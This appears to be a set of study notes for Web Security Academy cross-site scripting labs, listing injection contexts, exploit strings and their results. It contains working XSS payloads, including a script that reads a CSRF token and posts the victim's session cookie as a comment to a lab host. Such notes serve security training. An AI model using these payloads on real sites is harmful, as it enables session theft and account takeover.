 ### Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
Context:
```html
<a id="author" href="http://www.foo.bar" onclick="var tracker={track(){}};tracker.track('{HERE}');">Web</a>
```
Exploit:
```
http://foo.bar&apos;);alert(1);//
```
Result:
```html
<a id="author" href="http://www.foo.bar" onclick="var tracker={track(){}};tracker.track('http://foo.bar');alert(1);//');">Web</a>
```

### Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
Context:
```js
var message = `0 search results for '{HERE}'`;
```
Exploit:
```
${alert(document.domain)}
```
Result:
```js
var message = `0 search results for '${alert(document.domain)}'`;
```
**Note:** Update the base URL https://ac741f481eba7f5d80a83ee7003a00d0.web-security-academy.net/ to match yours!

_Instead of using Burp Collaborator, you could adapt the attack to make the victim post their cookie within
a blog comment by exploiting the XSS to perform CSRF, although this would mean that the cookie value is
exposed publicly, and also discloses evidence that the attack was performed._

## Exploiting cross-site scripting to steal cookies

_Stealing cookies is a traditional way to exploit XSS. Most web applications use cookies for session
handling. You can exploit cross-site scripting vulnerabilities to send the victim's cookies to your
own domain, then manually inject the cookies into your browser and impersonate the victim._

```html
<script>
window.onload = function(e) {
    var csrf = document.getElementsByName("csrf")[0].value;
    console.log(csrf);
    fetch('https://ac6b1f801e21e609805034f000bf00b3.web-security-academy.net/post/comment', {
        method: 'POST',
        body: 'csrf=' + csrf + '&postId=1&comment=Cookie: ' + document.cookie + '&name=Jan&email=admin%40cmdnctrl.net&website='
    });
};
</script>
```
